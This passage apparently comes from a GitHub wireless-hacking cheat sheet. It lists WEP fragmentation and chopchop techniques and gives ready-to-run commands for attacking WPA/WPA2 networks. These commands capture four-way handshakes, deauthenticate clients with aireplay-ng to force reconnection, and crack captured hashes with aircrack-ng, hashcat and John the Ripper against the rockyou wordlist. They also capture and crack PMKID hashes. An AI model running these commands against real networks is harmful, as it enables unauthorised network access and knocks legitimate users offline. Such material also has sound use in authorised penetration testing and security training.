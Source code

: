 ```yaml

Fragmentation Attack:
  - Extract PRGA from fragments
  - Generate arbitrary packets
  - Works with limited traffic
  - Bypasses WEP filtering

Korek Chopchop:
  - Decrypt packets byte-by-byte
  - No key recovery needed
  - Generate new packets
  - Works against strict filtering
```

</div>

<div>

## 🛡️ WPA/WPA2 Attack Methods

### 🤝 4-Way Handshake Capture
```bash
# Capture handshake
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon

# Force client reconnection
sudo aireplay-ng -0 2 -a AA:BB:CC:DD:EE:FF -c CC:DD:EE:FF:00:11 wlan0mon

# Verify handshake capture
sudo aircrack-ng handshake-01.cap
```

### 💥 Dictionary and Brute Force
```bash
# Dictionary attack with aircrack-ng
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt handshake-01.cap

# HashCat GPU acceleration
hashcat -m 2500 handshake.hccapx /usr/share/wordlists/rockyou.txt

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt handshake.john

# Mask attack (8-digit numeric)
hashcat -m 2500 handshake.hccapx -a 3 ?d?d?d?d?d?d?d?d
```

### 🔑 PMKID Attack (WPA2)
```bash
# Capture PMKID
sudo hcxdumptool -i wlan0mon -o pmkid.pcapng --enable_status=1

# Convert to hashcat format
hcxpcapngtool -o pmkid.hash -k pmkid.hccapx pmkid.pcapng

# Crack PMKID
hashcat -m 16800 pmkid.hash /usr/share/wordlists/rockyou.txt
```
